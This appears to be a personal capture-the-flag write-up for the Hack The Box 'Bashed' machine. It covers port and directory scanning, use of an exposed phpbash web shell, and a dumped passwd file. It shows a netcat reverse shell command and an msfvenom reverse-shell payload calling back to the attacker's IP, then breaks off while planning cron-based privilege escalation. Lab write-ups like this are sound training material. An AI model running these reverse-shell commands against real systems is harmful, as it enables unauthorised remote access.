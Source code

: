 # Bashed 10.10.10.68 - Linux

 - __User__:
 - __Root__:

## Initial Attempt, 05/06/2020

### Enumeration

`nmap -oA bashed -A -p- 10.10.10.68`

```shell
Nmap scan report for 10.10.10.68
Host is up (0.032s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.68 -t 40`

```shell
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
/css (Status: 301)
/dev (Status: 301)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

The site at `http://10.10.10.68` points to https://github.com/Arrexel/phpbash. Says to drop phpbash.php on the server and then access it via browser. This is the intended vector, I would imagine. Now we have to get a file on the server.

... or maybe not. Investigating `gobuster` results, check `http://10.10.10.68/dev` and there is phpbash.php right there. Let's run it.

```powershell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

We have users `arrexel` and `scriptmanager`. We can also find the user flag in `/home/arrexel/user.txt`

```shell
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Can I do this without metasploit? Can I have `nc` listen and replace this `sendMail.php` file with a call to deliver a bash shell to my listener?

Interestingly, the shell has some passwordless access to the 2nd user?

```powershell
www-data@bashed:/var/www/html/dev# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

I am unable to `su` to this user, says I need a real terminal. I tried using python and perl to execution a `/bin/bash` or `/bin/sh` shell but it only seems to hang the process and never resolve.

```shell
www-data@bashed:/bin# cat /proc/version
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

Attempted to issue `nc 10.10.14.53 4848 -e /bin/bash` from the phpshell to a listener. Unfortunately `netcat-openbsd` version is installed which does not offer `-e` functionality.

Decided to use `wget` from the phpshell as `www-data` to move files into the `html/uploads` folder where we have write permissions. Tried a number of payloads to spawn meterpreter shells, but in the end it was `msfvenom -p php/reverse_perl LHOST=10.10.14.53 LPORT=4848 > perl.php` and a netcat listener that got me a `www-data` shell in my normal terminal. Commands like `su` were still failing. But `sudo -u scriptmanager /bin/bash` happened to work! And I was able to upgrade my terminal with `python -c 'import pty; pty.spawn("/bin/sh")'`.

In the `/scripts` folder which is owned by `scriptmanager` some behavior:

```powershell
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 May  6 22:01 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May  6 22:01 test.txt
scriptmanager@bashed:/scripts$
```

The python script is dead simple:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

And clearly "root" ran this script to generate a test file. And... if I delete the test file... it keeps popping back up! Probably a cron job for root user to run this script? Let's modify this script for priv esc purposes?